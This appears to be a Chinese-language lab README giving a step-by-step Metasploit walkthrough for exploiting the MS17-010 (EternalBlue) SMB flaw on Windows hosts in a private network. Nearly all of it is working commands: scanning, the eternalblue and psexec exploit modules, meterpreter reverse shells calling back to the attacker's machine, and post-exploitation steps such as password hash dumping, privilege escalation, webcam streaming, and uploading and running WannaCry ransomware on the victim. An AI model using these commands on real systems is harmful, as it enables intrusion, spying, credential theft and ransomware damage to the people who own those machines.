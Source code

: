 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
`nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open` \
也可以用 \
`nmap -n -p445 192.168.43.2` \
`>nmap ms17-010`    定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
`msfconsole` /进入msf> \
`version` /确保MS框架版本在 4.14.17以上,否则请apt-get install,search search ms17_010 \
漏洞模块路径查询，搜索到了 4 个相关的插件： \
`auxiliary/admin/smb/ms17_010_command` \
`auxiliary/scanner/smb/smb_ms17_010` \
`exploit/windows/smb/ms17_010_eternalblue` \
`exploit/windows/smb/ms17_010_psexec` \
其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
`use exploit/windows/smb/ms17_010_eternalblue`   /调用攻击模块 \
`options` /查看参数,并设置： \
`set RHOST 192.168.43.2` /设定攻击目标  \
`show payloads` /查看详细信息 \
`set payload windows/x64/meterpreter/reverse_tcp` /配置攻击载荷  \
`set LHOST 192.168.43.1` /设置操作机地址,即kali本机地址 \
`exploit` /发起攻击,也可以用`run` \
出现win -success!就成功了。

## 可以试试以下操作，或者help
`getuid，sysinfo` /查看系统信息 \
`webcam_list` /看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控 \
`route` /查看路由表 \
`screenshot` /桌面截图，很卡 \
`shell` /打开命令行，然后可以ipconfig/whoami/net user \
`ps` /看看开了哪些杀毒软件，内网一致 \
`kill` \
`hashdump` \
`getsystem` \
提权 \
`upload wcry/wcry.ext c:\` \
`upload wcry/FILE_ID.DIZ c:\` \
`execute -f c:\wcry.exe` \
上传和执行勒索病毒

## 使用msf框架攻击win32
`use exploit/windows/smb/ms17_010_psexec` \
`set RHOST 192.168.43.3` \
`set payload windows/meterpreter/reverse_tcp` \
`show options` /查看设置好的参数 \
`set LHOST 192.168.43.1` \
`set SMBUser aleecy` /32位机的账号 \
`set SMBPass 0` /32位机的密码 \
`exploit`


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
`/etc/init.d/postgresql restart` \
`reload_all`

